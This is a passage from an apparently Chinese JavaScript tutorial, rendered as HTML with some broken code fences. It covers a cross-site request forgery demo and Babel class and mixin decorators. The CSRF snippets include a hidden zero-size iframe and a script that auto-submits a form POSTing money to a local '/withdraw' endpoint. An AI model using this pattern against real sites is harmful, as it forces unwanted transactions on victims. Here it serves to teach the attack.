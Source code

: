 app.listen(4000);
</code></pre>
<h6 id="t667.3.3.5 csrf">7.3.3.5 csrf <a href="#t667.3.3.5 csrf"> # </a></h6>
<pre><code class="lang-html">
    <img src="https://www.baidu.com/img/bd_logo1.png">
    <iframe src="/form" frameborder="0" style="width:0;height:0"></iframe>

</code></pre>
<h6 id="t677.3.3.6 form">7.3.3.6 form <a href="#t677.3.3.6 form"> # </a></h6>
<pre><code class="lang-html">
        <form id="myform" action="http://localhost:3000/withdraw" method="POST">
            <input type="text" name="money" id="money" value="10">
        </form>
        <script>
                setTimeout(function(){
                   document.getElementById('myform').submit();
                },100);
            </script>

</code></pre>
<h5 id="t687.3.4 &#x652F;&#x6301;decorators">7.3.4 &#x652F;&#x6301;decorators <a href="#t687.3.4 &#x652F;&#x6301;decorators"> # </a></h5>
<ul>
<li><a href="https://babeljs.io/docs/en/babel-plugin-proposal-decorators">babel-plugin-proposal-decorators</a><pre><code class="lang-js">&quot;plugins&quot;: [
  [&quot;@babel/plugin-proposal-decorators&quot;, { &quot;legacy&quot;: true }],
  [&quot;@babel/plugin-proposal-class-properties&quot;, { &quot;loose&quot; : true }]
]
</code></pre>
<h5 id="t697.3.5 &#x7C7B;decorators">7.3.5 &#x7C7B;decorators <a href="#t697.3.5 &#x7C7B;decorators"> # </a></h5>
<code>`</code>js
@testable
class Person{</li>
</ul>
<p>}
function testable(target) {
    target.testable=true;
}
console.log(Person.testable);</p>
<pre><code>
```js
let Hooks={
    componentWillMount() {
        console.log(&apos;componentWillMount&apos;);
    },
    componentDidMount() {
        console.log(&apos;componentDidMount&apos;);
    }
}
function mixins(...others) {
    return function (target) {
        Object.assign(target.prototype,...others);
    }
}
@mixins(Hooks)
class Component{

}
let c=new Component();
console.log(c);
</code></pre><h5 id="t707.3.6 &#x65B9;&#x6CD5;decorators">7.3.6 &#x65B9;&#x6CD5;decorators <a href="#t707.3.6 &#x65B9;&#x6CD5;decorators"> # </a></h5>
<ul>
```